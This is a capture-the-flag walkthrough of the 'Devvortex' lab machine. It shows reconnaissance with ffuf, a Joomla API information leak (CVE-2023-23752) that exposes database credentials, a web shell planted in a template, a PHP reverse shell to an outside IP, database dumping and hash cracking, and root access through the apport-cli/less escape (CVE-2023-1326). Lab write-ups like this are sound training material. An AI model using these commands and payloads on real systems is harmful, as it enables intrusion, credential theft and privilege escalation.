# Recon



We find two active ports, an SSH service and a web app. We also find the domain `devvortex.htb`, so we add it to our hosts file to further inspect it.


Before properly exploring the web app and its functionality, we make sure to find as many directories as possible, as well as VHosts/subdomains.

```bash
ffuf -u http://devvortex.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -mc 200,204,301,302,307,401,403 -t 50
```

Fuzzing the directories, we find 3 of them with status `301`.



We follow up this directory fuzzing with a file fuzz.

```bash
ffuf -u http://devvortex.htb/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt \
  -mc 200,204,301,302,307,401,403
```



Next, we fuzz for subdomains.

```bash
ffuf -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -fs <baseline_size> -t 50
```



We find an interesting subdomain, `dev.devvortex.htb`, which could potentially expose developer or administrator tooling.

We add the subdomain to our hosts file so we can manually resolve it to the same IP and visit the different subdomain.


We land on a new page.

During our `ZAP` scan to spider and fuzz directories and components, we find many interesting directories, as well as a vulnerable `JavaScript` library.



We also find an interesting admin dashboard.





We also find the plugins directory, which can expose third-party tooling in use.





We find the usage of `Joomla`, a CMS used to build and manage websites without having to code everything from scratch.

Doing some research about `Joomla`, we find that there is a manifest `.xml` file under certain common paths, so we go and try to curl it.

```bash
curl -s http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
```



We find the version `4.2.6`.

# Initial Access Exploitation

A quick OSINT search provides us with this information.



`CVE-2023-23752` is an improper access control vulnerability that allows unauthorized access to certain web service endpoints.

Further investigation provides us with the fact that the API endpoints have an access control flow where, when the request includes the `public=true` parameter, the system incorrectly treats it as having a "public access level", leaking data that should be protected.

We craft a `curl` command to list users based on the documentation.

```bash
curl -s "http://dev.devvortex.htb/api/index.php/v1/users?public=true"
```



And we confirm the vulnerability.

We can leak further data with:

```bash
curl -s "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true"
```



`P4ntherg0t1n5r3c0n##`

Using `| jq` to parse the `curl` output into JSON format for readability, we find the credentials of user `lewis`.

Immediately, we try to SSH to the machine for credential reuse, but we fail.



But we can also try those credentials in the admin panel on the `dev.` subdomain.



Next to the credentials, we also find a mention of `mysqli`, which may indicate a MySQL database listening locally.



# RCE

Following and doing some research on Joomla, we learn that through the templates, as an admin, we get access to file editing, potentially allowing us to achieve RCE.



We grab a subtle `.php` file, not a main one, like `error.php`, and we write on top of the existing code a small PHP snippet that will give us RCE through a URL parameter. We add an `if` statement around the `cmd` parameter so we avoid people landing on `error.php` in a legitimate way and triggering command execution.

We curl it:

```bash
curl -s "http://dev.devvortex.htb/nonexistent-page-xyz?cmd=id"
```



At the top of the `.html` file, we confirm RCE.

We then modify the payload to allow us a reverse shell.

```php
set_time_limit(0);
$sock = fsockopen("10.10.14.38", 4445);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
```



# User privilege escalation

We get a shell as `www-data`, usually the lowest-privileged user on the machine.



We find there is only one user called `logan`.



Since we leaked some database data, my first look is at the running services, in hopes of finding the `mysqli`/MySQL service we found before.



We test the credentials, and we manage to start inspecting the database.

```bash
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' -e "SHOW DATABASES;"
```



We find 3 databases, with `joomla` being the most interesting one since the others are usually related to database metadata.

We list the tables in the `joomla` database.

```bash
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla -e "SHOW TABLES;"
```



Usually, the `users` tables are the ones containing user data and credentials.

We then do a `DESCRIBE` on the `users` table to see its columns.

```bash
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla -e "DESCRIBE sd4fg_users;"
```



And we `SELECT` the relevant ones.

```bash
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla -e "SELECT id, username, email, password FROM sd4fg_users\G"
```



We find the hashed passwords, and after doing a quick search online:



`tequieromucho` for `logan`.

Then we go back to the `ssh` service to test these new credentials.







# Getting Root

One of the first commands when doing system enumeration is to run `sudo -l`, which lists what the current user can run with `sudo` privileges.



This means `logan` is allowed to run `apport-cli` via `sudo`.

We do a quick check of the file permissions and ownership with:

```bash
ls -l /usr/bin/apport-cli
```



This means it's owned by and runs with the privileges of `root`.

Next step is to figure out what `apport-cli` can do.

We list its version:

```bash
apport-cli --version
```



## CVE-2023-1326

On checking the version online, we find an exploit linked with it.




According to the documentation, we first need a crash file so `apport-cli` can then call the `less` pager to read it. The vulnerability is not in `apport-cli` itself, but in the pager it invokes.

We make a crash file:

```bash
cat > /tmp/exploit.crash << 'EOF'
> ProblemType: Crash
> ExecutablePath: /usr/bin/id
> EOF
```

Then we summon it with `apport-cli` using `sudo`:

```bash
sudo /usr/bin/apport-cli -c /tmp/exploit.crash
```



This will trigger a large amount of output.


When the sequence ends, the `less` pager is kept open, and this is when we can use the interactive functionality of `less` to invoke `!/bin/bash` and spawn a shell.

